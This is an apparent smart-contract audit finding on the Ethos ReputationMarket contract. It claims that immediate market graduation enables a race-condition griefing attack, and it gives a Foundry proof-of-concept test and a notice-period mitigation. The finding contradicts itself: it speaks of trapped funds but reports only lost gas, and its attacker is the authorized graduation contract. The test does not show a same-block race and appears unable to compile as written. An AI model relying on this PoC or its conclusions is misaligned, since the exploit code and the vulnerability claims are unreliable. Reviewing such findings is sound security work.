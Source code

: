 Fun Crepe Lobster

Medium

# Malicious actors will block market graduations through precision-based race conditions

### Summary

Lack of minimum notice period in market graduation will cause denial of service for market participants as malicious actors will manipulate graduation timing to trap user funds through precision-based race conditions.

### Root Cause

In [ReputationMarket.sol:L605-L607](https://github.com/sherlock-audit/2024-12-ethos-update/blob/8d00c21b26274a75c47318f2dbacd9a40742034e/ethos/packages/contracts/contracts/ReputationMarket.sol#L605-L607) the market graduation executes immediately without a waiting period, allowing abrupt state changes that can trap user transactions in flight.

### Internal Pre-conditions

1. Market owner needs to set market state to be active (not graduated)
2. Market needs to have total funds to be at least 1 ETH
3. Authorized graduation contract needs to be set in contractAddressManager

### External Pre-conditions

1. Market graduation transaction needs to be mined within same block as user trade
2. Trade transaction needs to involve at least 0.1 ETH in value

### Attack Path

1. Attacker monitors mempool for large market trades
2. Attacker identifies pending trade transaction
3. Authorized contract calls graduateMarket() targeting same block
4. Market graduates before trade completes
5. User transaction fails due to market state change

### Impact

The traders suffer an approximate loss of gas fees (0.01-0.05 ETH per failed transaction). The attacker doesn't gain these funds but disrupts market operations (griefing).

### PoC

// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {ReputationMarket} from "./ReputationMarket.sol";
import {Test} from "forge-std/Test.sol";

contract GraduationExploitTest is Test {
    ReputationMarket public market;
    address public trader = address(0x1);
    address public graduationContract = address(0x2);
    uint256 public profileId = 1;
    
    function setUp() public {
        // Deploy and setup market
        market = new ReputationMarket();
        market.initialize(
            address(this), // owner
            address(this), // admin
            address(0),    // signer
            address(0),    // verifier
            address(this)  // contract manager
        );
        
        // Setup graduation contract
        vm.mockCall(
            address(this),
            abi.encodeWithSignature("getContractAddressForName(string)"),
            abi.encode(graduationContract)
        );
        
        // Create market and add funds
        market.createMarket{value: 5 ether}();
        
        // Fund trader
        vm.deal(trader, 10 ether);
    }

    function testGraduationRaceCondition() public {
        // Step 1: Setup pending trade
        vm.startPrank(trader);
        bytes memory tradeCalldata = abi.encodeWithSelector(
            market.buyVotes.selector,
            profileId,
            true,    // isPositive
            1000,    // maxVotesToBuy
            1        // minVotesToBuy
        );
        
        // Step 2: Prepare graduation transaction
        bytes memory graduateCalldata = abi.encodeWithSelector(
            market.graduateMarket.selector,
            profileId
        );
        
        // Step 3: Execute race condition
        vm.stopPrank();
        vm.prank(graduationContract);
        
        // Graduate market in same block as trade
        vm.roll(block.number + 1);
        market.graduateMarket(profileId);
        
        // Try to execute trade after graduation
        vm.prank(trader);
        (bool success,) = address(market).call{value: 1 ether}(tradeCalldata);
        
        // Verify trade failed
        assertFalse(success, "Trade should have failed after graduation");
        
        // Verify funds are stuck
        uint256 marketFunds = market.marketFunds(profileId);
        assertTrue(marketFunds > 0, "Market should have trapped funds");
        
        console.log("Trapped funds in market:", marketFunds);
    }
}

### Mitigation

mapping(uint256 => uint256) public graduationNotices;
uint256 constant GRADUATION_NOTICE_PERIOD = 1 days;

function announceGraduation(uint256 profileId) public {
    address authorizedAddress = contractAddressManager.getContractAddressForName("GRADUATION_WITHDRAWAL");
    if (msg.sender != authorizedAddress) revert UnauthorizedGraduation();
    
    graduationNotices[profileId] = block.timestamp;
    emit GraduationAnnounced(profileId);
}

function graduateMarket(uint256 profileId) public whenNotPaused activeMarket(profileId) nonReentrant {
    require(
        graduationNotices[profileId] > 0 &&
        block.timestamp >= graduationNotices[profileId] + GRADUATION_NOTICE_PERIOD,
        "Graduation notice period not elapsed"
    );
    
    address authorizedAddress = contractAddressManager.getContractAddressForName("GRADUATION_WITHDRAWAL");
    if (msg.sender != authorizedAddress) revert UnauthorizedGraduation();

    graduatedMarkets[profileId] = true;
    emit MarketGraduated(profileId);
}